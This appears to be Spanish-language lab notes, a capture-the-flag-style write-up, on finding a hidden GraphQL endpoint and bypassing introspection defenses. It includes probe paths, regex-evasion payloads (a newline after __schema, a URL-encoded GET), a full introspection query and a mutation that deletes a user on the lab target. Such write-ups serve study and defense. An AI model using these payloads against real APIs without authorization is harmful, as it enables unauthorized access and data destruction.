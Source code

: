 ```yaml
---
layout: default
title: 3 - Finding a hidden GraphQL endpoint (& Bypassing Introspection defenses)
---
```


Si la instrospección está habilitada : https://github.com/APIs-guru/graphql-voyager

Buscamos el endpoint usando GET y POST

/graphql
/graphiql
/graphql.php
/graphql/console
/api
/api/graphql
/graphql/api
/graphql/graphql

y poniendo /v1 y usando application/json

Usando una query universal : `query{__typename}`

Si le enviamos una Introspection query :

```json
{
  "errors": [
    {
      "locations": [],
      "message": "GraphQL introspection is not allowed, but the query contained __schema or __type"
    }
  ]
}
```

Ahora vamos a bypassear la defensa contra instrospección:

## Bypassing GraphQL introspection defenses

If you cannot get introspection queries to run for the API you are testing, try inserting a special character after the `__schema` keyword.

When developers disable introspection, they could use a regex to exclude the `__schema` keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.

As such, if the developer has only excluded `__schema{`, then the below introspection query would not be excluded.

```json

    #Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }

```

If this doesn't work, try running the probe over an alternative request method, as introspection may only be disabled over POST. Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`.

The example below shows an introspection probe sent via GET, with URL-encoded parameters.

```
 # Introspection probe as GET request
    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

Solución : 
Si lo enviamos así nos da error

```json
{
    "query": "query { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description locations args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"
}
```

Si lo enviamos así (salto de línea y retorno de carro después de __schema) : 

``` json
{
    "query": "query { __schema\r\n
     { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description locations args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"
}
```

Funciona

Enviando

```json
{
    "query": "query { getUser(id: 1) { id username  } }"
}
```

```json
{
  "data": {
    "getUser": {
      "id": 1,
      "username": "administrator"
    }
  }
}
```

==Para eliminar al usuario con Id=3==

Dado que el tipo de respuesta `DeleteOrganizationUserResponse` tiene un campo llamado `user` que es de tipo `User`, puedes solicitar información adicional sobre el usuario eliminado al hacer la mutación `deleteOrganizationUser`. Aquí tienes un ejemplo de cómo realizar la mutación para eliminar un usuario y obtener información sobre el usuario eliminado en la respuesta.

### Ejemplo de mutación `deleteOrganizationUser`

```json
{
    "query": "mutation { deleteOrganizationUser(input: { id : 3 }) { user { id username } } }"
}
```

### Explicación

- **deleteOrganizationUser**: Es el nombre de la mutación que elimina al usuario.
- **input**: Es el argumento que necesita la mutación, y debe seguir la estructura de `DeleteOrganizationUserInput`. ==(indicar un id)==
  - **id**: El identificador del usuario que deseas eliminar. Sustituye `123` por el ID real del usuario.
- **user**: Este campo en la respuesta representa el usuario que fue eliminado ==(debe seguir la estructura de DeleteOrganizationUserResponse)==
  - **id, username Campos de información del usuario eliminado que solicitamos como ejemplo. Puedes cambiar o agregar otros campos según lo permita el tipo `User` en tu esquema.


